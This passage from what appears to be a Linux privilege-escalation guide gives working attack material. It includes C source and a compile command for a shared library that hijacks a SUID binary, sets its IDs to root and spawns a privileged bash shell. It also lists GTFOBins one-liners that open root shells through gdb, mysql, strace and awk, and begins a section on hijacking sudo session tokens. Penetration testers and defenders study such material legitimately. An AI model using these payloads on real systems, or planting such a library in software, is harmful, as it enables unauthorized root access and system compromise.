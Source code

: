 Now that we have found a SUID binary loading a library from a folder where we can write, lets create the library in that folder with the necessary name:

```c
//gcc src.c -fPIC -shared -o /development/libshared.so
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.

### GTFOBins

[**GTFOBins**](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. [**GTFOArgs**](https://gtfoargs.github.io/) is the same but for cases where you can **only inject arguments** in a command.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit\
> sudo mysql -e '! /bin/sh'\
> strace -o /dev/null /bin/sh\
> sudo awk 'BEGIN {system("/bin/sh")}'


{{#ref}}
https://gtfobins.github.io/
{{#endref}}


{{#ref}}
https://gtfoargs.github.io/
{{#endref}}

### FallOfSudo

If you can access `sudo -l` you can use the tool [**FallOfSudo**](https://github.com/CyberOne-Security/FallofSudo) to check if it finds how to exploit any sudo rule.

### Reusing Sudo Tokens

In cases where you have **sudo access** but not the password, you can escalate privileges by **waiting for a sudo command execution and then hijacking the session token**.
